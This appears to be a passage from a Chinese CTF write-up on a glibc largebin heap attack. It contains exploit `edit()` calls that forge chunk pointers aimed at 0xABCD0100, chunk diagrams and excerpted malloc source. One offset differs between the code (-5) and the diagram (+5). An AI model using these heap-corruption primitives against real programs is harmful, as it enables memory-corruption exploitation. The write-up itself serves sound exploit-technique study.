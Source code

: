 首先通过堆的分配机制，将chunk2变成unsortedbin chunk，将chunk6变成largebin chunk。

```python
	edit(5,p64(0)+p64(0x611)+p64(0)+p64(0xABCD0100-0x20+8)+p64(0)+p64(0xABCD0100-0x38-5))
	edit(1,p64(0)+p64(0x621)+p64(0)+p64(0xABCD0100-0x20))
```

我们首先通过chunk1和chunk5，将unsortedbin chunk和largebin chunk构造成如下形式

```
+-----------------+
|  		  0         |  #unsortedbin chunk (freed chunk2)
+-----------------+
|      0x621 	  	|  
+-----------------+
|        0        |  # fd
+-----------------+
| 0xabcd0100-0x20 |  # bk
+-----------------+

+-------------------+
|  		  0           |  #largebin chunk (freed chunk6)
+-------------------+
|      0x611 	    	|  
+-------------------+
|        0          |  # fd
+-------------------+
| 0xabcd0100-0x20+8 |  # bk
+-------------------+
|        0          |  # fd_next
+-------------------+
| 0xabcd0100-0x38+5 |  # bk_next
+-------------------+
```

当申请堆内存时，如果申请流程走到unsortedbin，glibc会把unsortedbin中的chunk按其大小分配到smallbins和largebins。当我们申请堆`add(0x48)`时，unsortedbin的chunk大小为0x621，不符合，就会将当前unsortedbin的chunk按大小分配到largebins，分配过程有如下指针操作

```c
                          else // 如果大于，则还需要修改nextsize
                            {
                              victim->fd_nextsize = fwd;
                              victim->bk_nextsize = fwd->bk_nextsize;
                              fwd->bk_nextsize = victim;
                              victim->bk_nextsize->fd_nextsize = victim;
                            }
                          bck = fwd->bk;
                        }
                    }
                  else // 为空的情况
                    victim->fd_nextsize = victim->bk_nextsize = victim;
                }
    					// 如果victim是smallbin或者是largebin但是对应链表为空的话，则将victim插入到该链表的第一个
    					// 总之是插入到bck与fwd之间
        			mark_bin (av, victim_index); // 首先标记对应链表不为空了
          		victim->bk = bck; // 将victim插入到链表，作为第一个bin
            	victim->fd = fwd;
              fwd->bk = victim;
              bck->fd = victim;
```
